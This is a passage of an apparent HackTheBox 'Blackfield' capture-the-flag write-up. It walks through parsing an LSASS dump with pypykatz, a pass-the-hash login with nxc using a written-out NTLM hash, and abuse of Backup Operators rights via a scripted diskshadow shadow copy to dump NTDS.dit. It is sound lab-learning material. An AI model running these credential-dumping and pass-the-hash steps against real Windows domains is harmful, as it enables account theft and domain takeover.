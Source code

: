 ```
pypykatz lsa minidump lsass.DMP
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903182527.png)

I found only 3 different ntlm hashes, let's attempt to crack it
Can't crack via rockyou so let's try pass the hash

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903183118.png)

only 2 that may be valid so I made it manualy and svc_backup works

```
nxc smb 10.10.10.192 -u "svc_backup" -H 9658d1d1dcd9250115e2205d9f48400d
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903183459.png)

## Privilege Escation

back to bloodhound and I am very happy when I see High Value Target on owned account 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903183703.png)

svc_backup is in backup operators group so ntds.dit dump

### Dumping the NTDS.dit

https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration
Tried this but didn't work, and I found easy and clear answer in jugernautsec writeup
https://juggernaut-sec.com/hackthebox-blackfield/

Since diskshadow.exe is an interactive command and we currently have a non-interactive session, we have to craft a TXT file that we can feed into diskshadow.exe. This will allow us to execute the necessary commands to create our shadow copy.

```
mkdir c:/temp

cd c:/temp

echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii 

echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append 

echo "create" | out-file ./diskshadow.txt -encoding ascii -append 

echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903192150.png)

After creating the diskshadow.txt file, I used the the following command to create a shadow copy and make it visible as the Z:\ drive:
